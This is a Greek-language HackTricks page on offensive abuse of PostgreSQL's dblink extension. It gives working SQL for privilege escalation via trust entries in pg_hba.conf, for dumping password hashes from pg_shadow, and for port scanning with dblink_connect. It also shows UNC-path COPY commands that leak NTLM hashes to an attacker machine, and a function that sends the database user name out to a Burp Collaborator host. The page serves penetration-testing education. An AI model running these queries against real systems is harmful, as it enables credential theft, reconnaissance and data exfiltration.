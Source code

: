 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


**Βρείτε [περισσότερες πληροφορίες σχετικά με αυτές τις επιθέσεις στο πρωτότυπο έγγραφο](http://www.leidecker.info/pgshell/Having\_Fun\_With\_PostgreSQL.txt)**.

Από την **PostgreSQL 9.1**, η εγκατάσταση επιπλέον modules είναι απλή. [Καταχωρημένες επεκτάσεις όπως το `dblink`](https://www.postgresql.org/docs/current/contrib.html) μπορούν να εγκατασταθούν με [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html):
```sql
CREATE EXTENSION dblink;
```
Μόλις φορτώσετε το dblink, θα μπορούσατε να εκτελέσετε μερικά ενδιαφέροντα κόλπα:

## Privilege Escalation

Το αρχείο `pg_hba.conf` θα μπορούσε να είναι κακώς διαμορφωμένο **επιτρέποντας συνδέσεις** από **localhost ως οποιοσδήποτε χρήστης** χωρίς να χρειάζεται να γνωρίζετε τον κωδικό πρόσβασης. Αυτό το αρχείο μπορεί συνήθως να βρεθεί στο `/etc/postgresql/12/main/pg_hba.conf` και μια κακή διαμόρφωση φαίνεται έτσι:
```
local    all    all    trust
```
_Σημειώστε ότι αυτή η ρύθμιση χρησιμοποιείται συνήθως για να τροποποιήσει τον κωδικό πρόσβασης ενός χρήστη db όταν ο διαχειριστής τον ξεχνά, οπότε μερικές φορές μπορεί να το βρείτε._\
_Σημειώστε επίσης ότι το αρχείο pg\_hba.conf είναι αναγνώσιμο μόνο από τον χρήστη και την ομάδα postgres και εγγράψιμο μόνο από τον χρήστη postgres._

Αυτή η περίπτωση είναι **χρήσιμη αν** έχετε **ήδη** ένα **shell** μέσα στο θύμα, καθώς θα σας επιτρέψει να συνδεθείτε στη βάση δεδομένων postgresql.

Μια άλλη πιθανή κακή ρύθμιση περιλαμβάνει κάτι σαν αυτό:
```
host    all     all     127.0.0.1/32    trust
```
Καθώς θα επιτρέπει σε όλους από το localhost να συνδεθούν στη βάση δεδομένων ως οποιοσδήποτε χρήστης.\
Σε αυτή την περίπτωση και αν η **`dblink`** λειτουργία είναι **λειτουργική**, θα μπορούσατε να **ανεβάσετε δικαιώματα** συνδεόμενοι στη βάση δεδομένων μέσω μιας ήδη καθορισμένης σύνδεσης και να αποκτήσετε πρόσβαση σε δεδομένα που δεν θα έπρεπε να έχετε πρόσβαση:
```sql
SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'SELECT datname FROM pg_database')
RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'select usename, passwd from pg_shadow')
RETURNS (result1 TEXT, result2 TEXT);
```
## Port Scanning

Καταχρώντας το `dblink_connect` θα μπορούσατε επίσης να **αναζητήσετε ανοιχτές θύρες**. Αν αυτή η **λειτουργία δεν λειτουργεί, θα πρέπει να προσπαθήσετε να χρησιμοποιήσετε το `dblink_connect_u()` καθώς η τεκμηρίωση αναφέρει ότι το `dblink_connect_u()` είναι ταυτόσημο με το `dblink_connect()`, εκτός από το ότι θα επιτρέπει στους μη υπερχρήστες να συνδέονται χρησιμοποιώντας οποιαδήποτε μέθοδο πιστοποίησης_.
```sql
SELECT * FROM dblink_connect('host=216.58.212.238
port=443
user=name
password=secret
dbname=abc
connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
Is the server running on host "127.0.0.1" and accepting
TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```
Σημειώστε ότι **πριν** μπορέσετε να χρησιμοποιήσετε το `dblink_connect` ή το `dblink_connect_u` ίσως χρειαστεί να εκτελέσετε:
```
CREATE extension dblink;
```
## UNC path - NTLM hash disclosure
```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
